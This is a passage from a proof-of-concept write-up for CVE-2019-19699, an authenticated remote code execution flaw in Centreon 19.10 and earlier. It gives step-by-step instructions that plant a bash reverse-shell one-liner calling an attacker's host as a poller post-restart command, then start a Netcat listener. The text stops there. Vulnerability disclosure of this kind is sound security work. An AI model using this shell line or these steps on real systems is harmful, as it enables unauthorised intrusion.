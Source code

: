 ```yaml
---
layout: single
title: "Centreon ARCE CVE by SpengeSec"
---
```

## CVE-2019-19699
**Centreon =\< 19.10**
**Proof of Concept**
1. Authenticated Remote Code Execution (CVE-2019-19699)
2. Privilege escalation (Walkthrough & Mitigation)

Discovered by:
_SpengeSec (Guylian Dw)_ &
_TheCyberGeek (Matthew B)_

[separator]: <> ()

**Authenticated Remote Code Execution:**

Lets start by logging in as user Admin to the Centreon web panel.

![](/content/spengesec/CVE-2019-19699/images/login.png)

After logging in we navigate to **Configuration > Commands > Miscellaneous**

Proceed by clicking **Add** as shown in the image below.

![](/content/spengesec/CVE-2019-19699/images/add.png)



We now create a **bash reverse shell** as our Miscellaneous command
```
#!/bin/bash
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```

![](/content/spengesec/CVE-2019-19699/images/command.png)
  
And click **Save**

Now we navigate to **Configuration > Pollers** and proceed by clicking on our current _Central_ poller

![](/content/spengesec/CVE-2019-19699/images/poller.png)

This gives u access to the **Modify a poller Configuration** menu

Here we can scroll down, and set a **Post-restart command**

![](/content/spengesec/CVE-2019-19699/images/poller_config.png)
  
Proceed by selecting the **reverse shell** we previously created, and click the **Save** button

We can now proceed by starting the **Netcat** listener on our local machine

![](/content/spengesec/CVE-2019-19699/images/listener.png)
